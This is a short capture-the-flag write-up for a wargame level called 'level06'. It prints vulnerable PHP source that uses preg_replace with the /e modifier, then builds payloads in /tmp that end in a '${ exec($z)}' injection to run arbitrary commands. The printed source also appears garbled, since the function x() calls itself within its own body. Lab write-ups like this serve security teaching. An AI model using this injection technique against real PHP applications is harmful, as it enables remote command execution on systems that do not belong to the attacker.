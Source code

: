 ### Documentation
[preg_replace vulnerability](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)

[Back references](https://www.php.net/manual/en/regexp.reference.back-references.php)

[Curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)

### Exploit
1. `ls`
   ```
   level06  level06.php
   ```

2. `cat level06.php`
   ```php
   function y($m) {
      $m = preg_replace("/\./", " x ", $m);
      $m = preg_replace("/@/", " y", $m);
      return $m;
   }

   function x($y, $z) {
      $a = file_get_contents($y);
      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
      $r = x($argv[1], $argv[2]);
      $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
      return $a;
   }
      
   $r = x($argv[1], $argv[2]);
   print $r;
   ```

3. `echo 'hello' > /tmp/payload && ./level06 /tmp/payload`
   ```bash
   hello
   ```

4. `echo '[x $z]' > /tmp/payload && ./level06 /tmp/payload 'id'`
   ```bash
   id
   ```

5. `echo '[x ${ exec($z)}]' > /tmp/payload && ./level06 /tmp/payload 'getflag'`

